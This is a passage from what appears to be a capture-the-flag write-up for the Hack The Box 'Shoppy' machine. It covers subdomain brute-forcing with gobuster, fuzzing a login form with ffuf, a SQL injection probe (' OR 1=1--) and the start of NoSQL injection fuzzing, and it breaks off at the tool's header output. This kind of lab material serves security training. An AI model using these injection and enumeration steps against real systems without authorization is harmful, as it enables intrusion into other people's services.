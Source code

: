 
* Second, we want to try some subdomain bruteforcng:

`gobuster vhost -u http://shoppy.htb -w /usr/share/wordlists/seclists/Discovery/DNS/combined_subdomains.txt --append-domain -t 200`
```
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://shoppy.htb
[+] Method:          GET
[+] Threads:         500
[+] Wordlist:        /usr/share/wordlists/seclists/Discovery/DNS/combined_subdomains.txt
[+] User Agent:      gobuster/3.3
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2022/12/02 18:12:13 Starting gobuster in VHOST enumeration mode
===============================================================
Found: mattermost.shoppy.htb Status: 200 [Size: 3122]
===============================================================
2022/12/02 18:16:22 Finished
===============================================================
```
* We can see the mattermost subdomain here, so we can add it to `/etc/hosts`


# Exploitation

* To check for vulnerabilities in the login page, I want to first fuzz the input with special characters
	* To do this, we want to get the login request with burp and save it as `login.req` with the GET parameters changed to "FUZZ"
	* Then we can use the following command to check for characters with outputs that stand out
		* `ffuf -request login.req -request-proto http -w /usr/share/seclists/Fuzzing/special-chars.txt -mc al`
	Unfortunately this didn't work

### NoSQLi

* Trying a basic SQL injection with `' OR 1=1--` makes the page hang and eventually return a 504, which makes me think there could be a vulnerability there
	* Sqlmap doesn't return anything of use, so I thought I'd look for NoSQL vulns
	* There are tools for doing this automatically, but ffuf can also be used to fuzz common injection techniques:

`ffuf -u http://shoppy.htb/login -w /usr/share/seclists/Fuzzing/Databases/NoSQL.txt -request login.req`
```
 :: Method           : POST
 :: URL              : http://shoppy.htb/login
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/Databases/NoSQL.txt
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Accept-Encoding: gzip, deflate
 :: Header           : Origin: http://shoppy.htb
 :: Header           : Referer: http://shoppy.htb/login
 :: Header           : Host: shoppy.htb
 :: Header           : Connection: close
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Content-Type: application/x-www-form-urlencoded
```